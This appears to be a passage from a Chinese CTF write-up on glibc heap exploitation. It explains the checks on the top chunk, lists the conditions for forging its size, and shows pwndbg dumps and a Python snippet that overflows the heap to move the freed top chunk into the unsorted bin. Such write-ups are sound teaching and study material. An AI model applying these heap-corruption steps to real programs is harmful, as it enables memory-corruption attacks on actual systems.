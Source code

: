 这里检查了top chunk的合法性，如果第一次调用本函数，top chunk可能没有初始化，所以可能old_size为0，如果top chunk已经初始化了，那么top chunk的大小必须大于等于MINSIZE，因为top chunk中包含了  fencepost，所以top chunk的大小必须要大于MINSIZE。其次Top  chunk必须标识前一个chunk处于inuse状态，并且top chunk的结束地址必定是页对齐的。此外top  chunk除去fencepost的大小必定要小于所需chunk的大小，否则在_int_malloc()函数中会使用top  chunk分割出chunk

总结一下伪造的top chunk size的要求

1.伪造的size必须要对齐到内存页

2.size要大于MINSIZE(0x10)

3.size要小于之后申请的chunk size + MINSIZE(0x10)

4.size的prev inuse位必须为1

之后原有的top chunk就会执行`_int_free`从而顺利进入unsorted bin中

回到题中,就要得满足以上要求


```sh
pwndbg> x /40gx 0x555555758060
0x555555758060:	0x0000000000000000	0x0000000000020fa1
0x555555758070:	0x0000000000000000	0x0000000000000000
0x555555758080:	0x0000000000000000	0x0000000000000000
0x555555758090:	0x0000000000000000	0x0000000000000000
0x5555557580a0:	0x0000000000000000	0x0000000000000000
0x5555557580b0:	0x0000000000000000	0x0000000000000000
```

然而 0x555555758060 + 0x0000000000020fa1 ==  0x555555779001 , 去掉inuse位,则内存是按照0x1000对齐的,则我们所能修改top chunk的大小就可以为: (x * 0x1000 + 0x20fa1) > MINSIZE(0x10) (x 属于 整数),题中在添加的时候,最多只能申请大小为0x1000,那我们就通过堆溢出把top chunk size 改为: 0x0fa1, 然后再申请大于这个top chunk size的chunk就可以实现top chunk free后成为unsoted bin 

```python
	ad(0x10, 'A' * 0x10)
	p = 'A' * 0x10
	p += p64(0) + p64(0x21) #后一个储存颜色的chunk
	p += p64(0x1f00000010)
	p += p64(0)
	p += p64(0) # top chunk pre_size
	p += p64(0x00fa1) # top chunk size
    md(0x80, p) # 堆溢出修改top chunk size
```
实现如下

```c
pwndbg> bin
fastbins
0x20: 0x0
0x30: 0x0
0x40: 0x0
0x50: 0x0
0x60: 0x0
0x70: 0x0
0x80: 0x0
unsortedbin
all: 0x5555557580a0 —▸ 0x7ffff7dd1b78 (main_arena+88) ◂— 0x5555557580a0
smallbins
empty
largebins
empty
```
